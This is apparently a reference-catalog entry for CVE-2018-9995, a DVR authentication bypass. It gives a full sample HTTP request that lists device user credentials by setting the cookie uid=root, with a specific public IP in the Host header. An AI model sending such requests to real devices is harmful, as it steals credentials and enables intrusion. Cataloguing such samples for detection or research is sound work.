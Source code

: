 # CVE-2018-9995 - DVR Get Credentials

# Links:
https://www.exploit-db.com/exploits/44577

# Protocols:
HTTP

# Ports:
80

# Sample:

```
GET /device.rsp?opt=user&cmd=list HTTP/1.1
Host: 209.97.144.74
Cookie: uid=root
Accept-Encoding: gzip, deflate
Accept: text/html, application/xhtml+xml, */*
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko

```
